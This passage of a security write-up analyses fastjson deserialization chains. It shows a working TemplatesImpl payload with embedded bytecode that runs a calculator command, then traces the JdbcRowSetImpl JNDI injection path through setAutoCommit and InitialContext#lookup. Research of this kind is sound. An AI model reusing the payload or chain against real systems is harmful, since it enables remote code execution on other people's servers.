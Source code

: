 ```java
    }
}
```

![result1](./images/25.png)

 - Payload

```java
{'d1no':{"@type":"c
om.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQAJgoAAwAPBwAhBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbm VOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAlIM3JtZXNrMXQBAAxJbm5lckNsYXNzZXMBADJMb3JnL2gzcm1lc2sxdC9mYXN0anNvbi9mYXN0anNvbjEyNC9 QT0MkSDNybWVzazF0OwEAClNvdXJjZUZpbGUBAAhQT0MuamF2YQwABAAFBwATAQAwb3JnL2gzcm1lc2sxdC9mYXN0anNvbi9mYXN0anNvbjEyNC9QT0MkSDNybWVzazF0AQAQamF2YS9 sYW5nL09iamVjdAEAJm9yZy9oM3JtZXNrMXQvZmFzdGpzb24vZmFzdGpzb24xMjQvUE9DAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAFQEACmdldFJ1bnRpbWUBABUoKUxq YXZhL2xhbmcvUnVudGltZTsMABcAGAoAFgAZAQASb3BlbiAtYSBDYWxjdWxhdG9yCAAbAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAHQAe CgAWAB8BABdIM3JtZXNrMXQyOTQ5ODk5MDkyNjIxOAEAGUxIM3JtZXNrMXQyOTQ5ODk5MDkyNjIxODsBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVud GltZS9BYnN0cmFjdFRyYW5zbGV0BwAjCgAkAA8AIQACACQAAAAAAIAIAAQAEAAUAQAGAAAALwABAAEAAAAFKrcAJbEAAAAACAAAAAAAAAAAAAQAAAAAAAFKrcAJbEAAAAAACAAAAAAAAAAAQAAAAAAAFAAkAIgAAAAAAGAF AAFAAEABgAAABYAAgAAAAAAACrgAGhIctgAgV7EAAAAAAAIAIADQAAAAAAIADgALAAAACgABAAIAEAAKAAk="],'_name':'h3rmesk1t','_tfactory':{},'_outputProperties':{}}}
```

### JdbcRowSetImpl Deserialization
#### analyze
The `JdbcRowSetImpl` class is located in `com.sun.rowset.JdbcRowSetImpl`. The core point of this exploit chain is the `JNDI` injection caused by the controllable parameter of `javax.naming.InitialContext#lookup.

Since the trigger point of `fastjson` uses the `set`/`get` method, you can find available methods in `JdbcRowSetImpl` and follow up on the `setAutoCommit` method. When `this.conn` is empty, the `this.connect` method will be called.

![setAutoCommit](./images/26.png)

Follow up on the `connect` method, the `javax.naming.InitialContext#lookup` method is called, and the parameters are obtained from the member variable `dataSource`.

![connect](./images/27.png)

#### Call chain

```java
JdbcRowSetImpl object recovery ->
setDataSourceName method call ->
setAutocommit method call ->
context.lookup(datasourceName) call
```
#### Payload

 - POC.java
